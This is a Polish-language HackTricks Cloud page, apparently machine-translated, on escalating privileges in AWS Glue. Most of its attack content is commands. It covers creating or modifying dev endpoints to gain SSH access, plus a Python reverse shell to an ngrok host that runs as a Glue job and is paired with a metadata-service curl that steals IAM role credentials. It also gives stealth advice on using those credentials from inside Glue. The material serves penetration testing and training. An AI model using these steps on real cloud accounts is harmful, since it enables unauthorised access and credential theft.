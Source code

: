 # AWS - Glue Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Użytkownicy z tymi uprawnieniami mogą **ustawić nowy punkt końcowy AWS Glue do rozwoju**, **przypisując istniejącą rolę serwisową, którą można przyjąć przez Glue**, z określonymi uprawnieniami do tego punktu końcowego.

Po skonfigurowaniu, **atakujący może SSH do instancji punktu końcowego** i ukraść poświadczenia IAM przypisanej roli:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Dla celów ukrycia, zaleca się użycie poświadczeń IAM z wnętrza wirtualnej maszyny Glue.

**Potencjalny wpływ:** Privesc do roli serwisowej glue określonej.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Użytkownicy z tym uprawnieniem mogą **zmienić istniejący klucz SSH** punktu końcowego rozwoju Glue, **umożliwiając dostęp SSH do niego**. To pozwala atakującemu na wykonywanie poleceń z uprawnieniami przypisanej roli punktu końcowego:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Potencjalny wpływ:** Privesc do roli usługi glue używanej.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Użytkownicy z **`iam:PassRole`** w połączeniu z **`glue:CreateJob` lub `glue:UpdateJob`**, oraz **`glue:StartJobRun` lub `glue:CreateTrigger`** mogą **tworzyć lub aktualizować zadanie AWS Glue**, przypisując dowolne **konto usługi Glue**, i inicjować wykonanie zadania. Możliwości zadania obejmują uruchamianie dowolnego kodu Python, co można wykorzystać do ustanowienia odwrotnego powłoki. Ta odwrotna powłoka może być następnie wykorzystana do wykradzenia **poświadczeń IAM** roli przypisanej do zadania Glue, co prowadzi do potencjalnego nieautoryzowanego dostępu lub działań opartych na uprawnieniach tej roli:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Potencjalny wpływ:** Privesc do roli usługi glue określonej.

### `glue:UpdateJob`

Tylko z uprawnieniem do aktualizacji atakujący mógłby ukraść poświadczenia IAM już przypisanej roli.

**Potencjalny wpływ:** Privesc do roli usługi glue przypisanej.

## Odniesienia

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
